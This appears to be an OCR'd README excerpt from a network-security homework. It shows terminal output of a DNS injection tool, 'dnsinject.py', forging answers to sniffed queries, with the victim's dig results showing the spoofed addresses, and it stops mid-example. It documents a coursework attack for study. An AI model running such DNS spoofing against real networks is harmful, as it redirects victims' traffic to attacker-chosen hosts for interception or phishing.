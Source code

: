  
	-ATTACKER'S SIDE: 
	 
		mihir@mihir-Inspiron-15-7000-Gaming:~/Desktop/NetSec/111462188_HW4$ sudo python dnsinject.py -h hostnames.txt 			"udp port 53" 
		No interface specified 
		hostnames.txt 
		['udp port 53'] 
		Default Interface:  wlp3s0 
		  
		---------------Sniffed packet---------------- 
		10.255.35.87 -> 109.69.8.51 : www.yandex.com 
		. 
		Sent 1 packets. 
		DNS Ans "192.168.66.6"  
		 
	 
	-VICTIM'S SIDE: 
		ubuntu@ubuntu:~/Downloads$ dig @109.69.8.51 www.yandex.com 
		 
		; <<>> DiG 9.10.3-P4-Ubuntu <<>> @109.69.8.51 www.yandex.com 
		; (1 server found) 
		;; global options: +cmd 
		;; Got answer: 
		;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5658 
		;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0 
		;; WARNING: recursion requested but not available 
		 
		;; QUESTION SECTION: 
		;www.yandex.com.            IN    A 
		 
		;; ANSWER SECTION: 
		www.yandex.com.        10    IN    A    192.168.66.6 
		 
		;; Query time: 300 msec 
		;; SERVER: 109.69.8.51#53(109.69.8.51) 
		;; WHEN: Thu Dec 07 20:50:08 UTC 2017 
		;; MSG SIZE  rcvd: 62 
		 
	2. When Hostfile not given 
 
	-ATTACKER'S SIDE: 
		mihir@mihir-Inspiron-15-7000-Gaming:~/Desktop/NetSec/111462188_HW4$ sudo python dnsinject.py "udp port 53" 
		No interface specified 
		['udp port 53'] 
		Default Interface:  wlp3s0 
		  
		---------------Sniffed packet---------------- 
		10.255.35.87 -> 109.69.8.51 : www.google.com 
		Host file not entered, spoof with local IP:  10.255.42.185 
		. 
		Sent 1 packets. 
		DNS Ans "10.255.42.185"  
 
 
	-VICTIM'S SIDE: 
		ubuntu@ubuntu:~/Downloads$ dig @109.69.8.51 www.google.com 
		 